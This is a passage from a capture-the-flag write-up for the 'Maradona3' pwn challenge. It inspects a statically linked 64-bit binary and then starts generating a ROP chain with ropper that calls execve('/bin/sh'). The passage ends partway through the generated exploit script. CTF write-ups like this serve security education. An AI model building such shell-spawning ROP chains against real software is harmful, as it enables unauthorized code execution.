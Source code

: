

#### <a name="maradona3"></a>Maradona3 - Pwn - 450 points

This challenge again comes one file called `reto` which is different to the binary used in Maradona1 and Maradona2. Upon inspection is a 64 bit ELF binary, again statically linked and from `checksec` we can see canaries are enabled but PIE is disabled again.

```shell
$ file reto
reto: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=eb4e28fde084cb3be681236587e087acc4a60895, for GNU/Linux 3.2.0, not stripped

$ checksec reto
[*] 'reto'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In Ghidra, we see the main function has changed again. There is no reference to `system()` at all now and no way to use logic bugs to gain a flag at all. We need RCE for reals this time.

Since the binary is statically linked we do not have a system `libc` to work with. Meaning we have no `ret2libc` vectors we might usually be able to invoke `system()` through. 

This doesn't really matter though, we can make use of things lying around in the binary to build a ROP chain using an `execve() ` system call.

To create the ROP chain I used the `ropper` tool from [here](https://github.com/sashs/Ropper). It was the first time I used this tool so I was very impressed with the output. 

```shell
$ ropper --file reto --chain "execve cmd=/bin/sh" --badbytes 0a                                                                                           
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] ROPchain Generator for syscall execve:
[INFO] write command into data section
rax 0xb
rdi address to cmd
rsi address to null
rdx address to null

[INFO] Try to create chain which fills registers without delete content of previous filled registers
[*] Try permuation 1 / 24
[INFO] Look for syscall gadget
[INFO] syscall gadget found
[INFO] generating rop chain
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 6dc586ceff659de75407270f256a5a72c31261df44c0167bae678c5d0ec84606
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x0000000000008cab) # 0x0000000000408cab: pop r13; ret; 
rop += '//bin/sh'
```